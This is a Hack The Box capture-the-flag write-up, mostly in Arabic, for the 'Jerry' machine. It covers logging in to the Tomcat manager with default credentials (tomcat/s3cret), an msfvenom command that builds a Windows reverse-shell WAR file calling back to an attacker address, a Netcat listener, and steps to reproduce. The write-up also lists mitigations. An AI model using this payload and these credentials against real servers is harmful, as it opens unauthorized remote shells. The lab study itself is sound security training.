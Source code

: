 

---
## 📍 Basic Information
- **Category:** Web
- **Difficulty:** Easy
- **HTB Link:** [HTB Academy – Jerry ](https://app.hackthebox.com/machines/Jerry)
- **Date Completed:** 2025-07-28

---

## 🔍 1. Recon & Enumeration

### 🌐 Target Information
- **IP:** 10.10.10.95
- **Ports:** 8080 (HTTP)
- **Service:** Apache Tomcat
- **Technology Identified:** Apache Tomcat
- **OS Guessing:** Windows

### 📄 Files / Endpoints Discovered
- `/docs`
- `/manager/html`
- `/examples`

### 🧪 Tools Used
- `nmap`, `ffuf`, ``msfvenom`` 

---

## 🎯 2. Vulnerability Identification

### ✅ Vulnerability Type(s)
- [x] File Upload Attack
- [x] Weak Credential 

### 🧠 Explanation  
اثناء فحص ال Directories وجدت صفحة تسجيل دخول `manager/html` وهي عبارة عن صفحة تسجيل دخول، قمت بالتسجيل بال username وال password الافتراضيين ل Tomcat، وبالفعل استطعت تسجيل الدخول.

![[Pasted image 20250728212622.png]]

لاحظت بصفحة ال `manager` وجود مكان لرفع ملف `Web Application Resource (WAR)` وهو ملف يحتوي على الملفات المبنية ب Java الضرورية لعمل الموقع.

السماح برفع ملفات `WAR` وتمكين المستخدم من تشغيلها بدون تحقق من التوثيق يمثل خلل أمني يسمح بتنفيذ أوامر عن بعد RCE، وهذا يُصنف كـ `Remote Code Execution`.


---

## 🚀 3. Exploitation

### 🔧 Payload Used

بعد بحث خفيف على Google وجدت ان ممكن انشأ ال payload باستخدام `msvenom` : 

```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.93 LPORT=9002 -f war > rev_shell.war
```

وطبعاً لازم شغل `Listener` عندي باستخدام `Netcat`:

```shell
nc -lnvp 9002
```


---
### 🎯 Result / Effect

بعد ما جهزت ال Listener وانشأت ال Payload، برفعه على الصفحة، بس ما رح يصير شي عندي لانه صح انرفع بس ما تم تفعيله، لهيك لازم اضغط على رابط ال Payload يلي تم انشائه:

![[2.webp]]

---

## 📎 4. Proof of Concept (PoC)

### 💬 Steps to Reproduce:

1. افتح `8080:[Your_IP]` وسجل الدخول بـ:
    
2. بعد الدخول، انتقل مباشرة إلى `/manager/html`
    - username: `tomcat`
        
    - password: `s3cret`
        
    
3. لاحظ ممكن رفع ملف war.
    
4. انشأ payload Java وقم برفعه ثم تشغيله.
    

### 🖼️ Screenshot 

![[3.webp]]

![[4.webp]]

---

## 📊 5. Impact & Risk

- **OWASP Category:** A08:2021 - Software and Data Integrity Failures , A05:2021 - Security Misconfiguration
    
- **CVSS Score:** 9.0 (Critical)
    
- **Impact:**  
    يسمح للمستخدمين غير المصرح لهم بالوصول إلى صلاحية ال `Administrator`
    


---

## 🗒️ 7. Lessons Learned

- ضرورة تعطيل واجهات الإدارة (`manager/html`) أو تقييدها عبر جدار ناري داخلي.
    
- تقييد رفع ملفات WAR لمديرين موثوقين فقط.
    
- فحص ملفات WAR باستخدام AV و sandbox قبل النشر.
    

---

## 🔗 References

- [HTB Academy - File Upload Attacks](https://academy.hackthebox.com/module/details/136)
    
- [OWASP A08 – Software and Data Integrity Failuresl](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
    
- [OWASP A05 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
    

---

## **tags:**

#HTB_Repo , #Web , #Bug_Bounty , #File_Upload_Attack

